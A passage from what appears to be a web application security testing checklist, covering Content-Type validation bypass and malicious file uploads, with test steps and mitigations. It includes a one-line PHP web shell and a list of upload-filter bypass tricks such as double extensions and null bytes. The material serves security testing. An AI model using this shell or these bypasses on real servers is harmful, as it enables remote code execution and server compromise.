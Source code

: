 ```bash
user=test&role=admin

# Using Burp Suite:
1. Intercept POST request
2. Change Content-Type header
3. Modify body to match new type
4. Check if validation bypassed

# Test different types:
- application/json
- application/xml
- text/html
- multipart/form-data
- application/x-www-form-urlencoded
- text/plain
```

**Expected Output**: Consistent validation regardless of Content-Type.

**Vulnerability Confirmation**:
```
Vulnerable if:
- Different Content-Types have different validation
- XXE possible with XML Content-Type
- File upload filters bypassed
- Authentication bypass possible
- Server accepts unexpected Content-Types

Example:
JSON: {"file": "test.exe"} → Rejected
XML: <file>test.exe</file> → Accepted!
```

**Generic Mitigation**:
- Validate Content-Type header
- Whitelist allowed Content-Types
- Consistent input validation for all types
- Disable XML external entities (XXE)
- Verify actual content matches Content-Type
- Reject unexpected Content-Types
- Use Content-Type validation middleware

---

## FILE UPLOADS

### 37. Malicious File Upload

**Issue Description**: Uploading executable files can lead to remote code execution and server compromise.

**Execution Steps**:
```bash
# Test file upload vulnerabilities:

# 1. Upload executable files
# PHP shell:
<?php system($_GET['cmd']); ?>
# Save as: shell.php

# 2. Extension bypass techniques:
- Double extension: shell.php.jpg
- Null byte: shell.php%00.jpg
- Case variation: shell.PHP, shell.PhP
- Alternative extensions: .php5, .phtml
```